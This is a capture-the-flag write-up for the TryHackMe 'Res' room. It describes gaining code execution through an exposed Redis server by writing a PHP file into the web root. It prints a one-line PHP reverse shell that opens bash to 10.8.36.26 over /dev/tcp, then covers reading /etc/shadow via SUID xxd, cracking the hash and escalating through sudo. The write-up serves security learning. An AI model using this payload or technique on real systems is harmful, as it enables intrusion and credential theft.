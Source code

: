 ```yaml
---
description: '#cracking, #linux, #rce, #redis, #sudo, #SUID'
---
```


# Res

## Res - Writeup

**Date**: 27/03/2022

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/res](https://tryhackme.com/room/res)

***

Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

## Scan the machine, how many ports are open?

<figure><img src="../../.gitbook/assets/res0.png" alt=""><figcaption></figcaption></figure>

## What’s the database management system installed on the server? What port is the database management system running on?What's is the version of management system installed on the server?

<figure><img src="../../.gitbook/assets/res1.png" alt=""><figcaption></figcaption></figure>

## Compromise the machine and locate user.txt

First of all, let’s visit the webpage hosted on the port 80:

<figure><img src="../../.gitbook/assets/res2.png" alt=""><figcaption></figcaption></figure>

It displays a default page of an apache server recently installed.

As we have seen, there is a redis server running on port 6379. After some reading, I found that there is a way to interact with this service.

Let’s download the redis application:

[https://redis.io/docs/getting-started/](https://redis.io/docs/getting-started/)

[https://redis.io/docs/manual/cli/](https://redis.io/docs/manual/cli/)

Let’s test the connection:

<figure><img src="../../.gitbook/assets/res3.png" alt=""><figcaption></figcaption></figure>

It seems like we have connection with the redis server!

<figure><img src="../../.gitbook/assets/res4.png" alt=""><figcaption></figcaption></figure>

The info command seems to be helpful to retrieve redis server information:

<figure><img src="../../.gitbook/assets/res5.png" alt=""><figcaption></figcaption></figure>

According to this webpage ([https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)) there is a way to do a Remote Code Execution on a redis server:

<figure><img src="../../.gitbook/assets/res6.png" alt=""><figcaption></figcaption></figure>

We should know the path where we want to write the php file. Since we have visited the page before, we know that the folder is: `/var/www/html`

So, following the steps we do the same in our case:

<figure><img src="../../.gitbook/assets/res7.png" alt=""><figcaption></figcaption></figure>

Now let’s visit the page:

<figure><img src="../../.gitbook/assets/res8.png" alt=""><figcaption></figcaption></figure>

It works, now let’s try to write a reverse shell in php:

<figure><img src="../../.gitbook/assets/res9.png" alt=""><figcaption></figcaption></figure>

Let’s open a netcat listener in our machine:

<figure><img src="../../.gitbook/assets/res10.png" alt=""><figcaption></figcaption></figure>

And let’s visit the rs.php file:

<figure><img src="../../.gitbook/assets/res11.png" alt=""><figcaption></figcaption></figure>

We got a connection but it quickly disconnects...

Let’s try with this other one-line php reverse shell:

```jsx
'<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.8.36.26/1234 0>&1\'"); ?>'
```

<figure><img src="../../.gitbook/assets/res12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/res13.png" alt=""><figcaption></figcaption></figure>

Yeah, this one works!

<figure><img src="../../.gitbook/assets/res24.png" alt=""><figcaption></figcaption></figure>

We found the key file in the /home/vianka folder.

## What is the local user account password?

Before anything, let’s try to stabilize this shell:

<figure><img src="../../.gitbook/assets/res14.png" alt=""><figcaption></figcaption></figure>

Python is installed in the machine, so let’s use it:

<figure><img src="../../.gitbook/assets/res15.png" alt=""><figcaption></figcaption></figure>

Ok, shell stabilized, now let’s look for the local user account password. Can we read /etc/shadow file?

<figure><img src="../../.gitbook/assets/res16.png" alt=""><figcaption></figcaption></figure>

Nope, we can’t.

Something interesting in the history?

<figure><img src="../../.gitbook/assets/res17.png" alt=""><figcaption></figcaption></figure>

Let’s see if we find some keys in the user directory... nothing useful I can see...

After spending some time looking for ssh keys or something useful, I look for files with SUID activated:

<figure><img src="../../.gitbook/assets/res18.png" alt=""><figcaption></figcaption></figure>

From this list, xxd appears in the GTFO Bins list:

<figure><img src="../../.gitbook/assets/res19.png" alt=""><figcaption></figcaption></figure>

Exploiting this, we should be able to read /etc/shadow file!

<figure><img src="../../.gitbook/assets/res25.png" alt=""><figcaption></figcaption></figure>

Yeah! Now with the info of /etc/passwd, let’s use unshadow and John the ripper to crack the hash!

<figure><img src="../../.gitbook/assets/res26.png" alt=""><figcaption></figcaption></figure>

Unshadow done, now let’s crack it!

<figure><img src="../../.gitbook/assets/res27.png" alt=""><figcaption></figcaption></figure>

Cool!

## Escalate privileges and obtain root.txt

Let’s login as vianka and see if we have more permissions:

<figure><img src="../../.gitbook/assets/res20.png" alt=""><figcaption></figcaption></figure>

Enough permissions to access to root folder?

<figure><img src="../../.gitbook/assets/res21.png" alt=""><figcaption></figcaption></figure>

Nope. Let’s see what we can execute with sudo:

<figure><img src="../../.gitbook/assets/res22.png" alt=""><figcaption></figcaption></figure>

Really? We can run any command using sudo...

<figure><img src="../../.gitbook/assets/res23.png" alt=""><figcaption></figcaption></figure>

Woah

<figure><img src="../../.gitbook/assets/res28.png" alt=""><figcaption></figcaption></figure>

And this quickly we get the last flag!
